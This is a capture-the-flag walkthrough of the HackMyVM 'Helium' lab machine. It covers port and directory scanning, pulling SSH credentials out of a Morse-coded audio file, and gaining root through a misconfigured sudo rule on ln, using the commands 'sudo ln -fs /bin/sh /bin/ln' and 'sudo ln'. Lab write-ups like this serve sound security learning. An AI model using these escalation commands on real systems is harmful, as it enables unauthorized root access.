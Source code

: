 ```yaml
---
title: "Helium - HackMyVM Walkthrough"
---
```


nmap service scan:
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/helium]
└─$ nmap -p- -sV 192.168.56.254
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-06 22:52 EDT
Nmap scan report for dominator.hmv (192.168.56.254)
Host is up (0.00028s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    nginx 1.14.2
{% endhighlight %}
The index page on the site has a wav file and a background image. Comment from the 
web page source code:
{% highlight html %}
<!-- Please paul, stop uploading weird .wav files using /upload_sound -->
{% endhighlight %}

gobuster dir and file enum:
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/helium]
└─$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -q -x php,txt,html,dic -u http://192.168.56.254
/index.html           (Status: 200) [Size: 530]
/yay                  (Status: 301) [Size: 185] [--> http://192.168.56.254/yay/]
{% endhighlight %}

We don't have access to the yay directory. Let's enumerate the website more. READ 
EVERYTHING! 

found in bootstrap.min.css: 
`/yay/mysecretsound.wav`

Running that wav through https://morsecode.world/international/decoder/audio-decoder-adaptive.html reveals a password for the user paul. 

`paul:dancingpassyo`

We use those credentials to gain access via SSH. 

Local enumeration

Checking sudo commands and permissions:
{% highlight terminal %}
paul@helium:~$ sudo -l
Matching Defaults entries for paul on helium:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User paul may run the following commands on helium:
    (ALL : ALL) NOPASSWD: /usr/bin/ln
{% endhighlight %}


From gtfobins:
>If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

Using the following two commands we get a root shell:

`sudo ln -fs /bin/sh /bin/ln`

`sudo ln`

I submitted the points for the user and root flags. Hooray for points.
